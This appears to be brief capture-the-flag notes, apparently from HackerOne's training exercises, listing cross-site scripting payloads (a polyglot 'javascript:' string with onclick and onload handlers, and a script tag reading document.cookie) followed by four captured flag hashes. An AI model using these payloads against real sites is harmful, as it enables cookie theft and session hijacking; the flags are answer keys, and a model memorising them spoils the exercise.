HackerOne:

```javascript
jaVasCript:/*-/*`/*\`/*’/*”/**/(/* */oNcliCk=alert() )
//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ — !>\x3csVg/<sVg/oNloAd=alert()//>\x3e

">script>alert(document.cookie)</script>
```

flags: 


1-- ^FLAG^1a42b9daf7455dc6c7c83951875fce0a011279bff1fd30cf5846700877532be4$FLAG$

2-- ^FLAG^bcf5a6db7e672b40f29690ba67da84d55eaf36f4c3ef64a8366dfa54ff380e4c$FLAG$

3-- ^FLAG^1107bf4514df36d256de281aa7a9705680185450cab055e4ab55b755ac5039a4$FLAG$

4-- ^FLAG^220d4bb9609f84eb3cbf5e4851ee4858ff8dae2c3294f4a2bc14622b6669a167$FLAG$


